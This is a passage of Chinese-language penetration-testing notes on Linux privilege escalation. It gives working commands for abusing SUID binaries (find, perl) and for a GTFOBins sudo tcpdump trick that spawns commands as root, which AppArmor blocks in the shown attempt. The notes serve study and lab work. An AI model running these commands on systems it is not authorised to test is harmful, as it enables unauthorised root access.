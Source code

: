 ### 17.4.1 利用Setuid二进制文件

查看文件的SUID标志位

```armasm
ls -asl /usr/bin/passwd
```

find

```armasm
find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
```

getcap

```armasm
/usr/sbin/getcap -r / 2>/dev/null
```

perl

```armasm
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

更多suid提权利用查看

https://gtfobins.github.io/

### 17.4.2 sudo利用

查看当前用户可以使用的特权命令

```armasm
sudo -l
```

查看https://gtfobins.github.io/，发现

```armasm
COMMAND='id'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

没有成功，提示

```armasm
failed: Permission denied
```

查看日志

```armasm
cat /var/log/syslog | grep tcpdump
```

发现是AppArmor限制了，root权限后查看apparmor状态信息
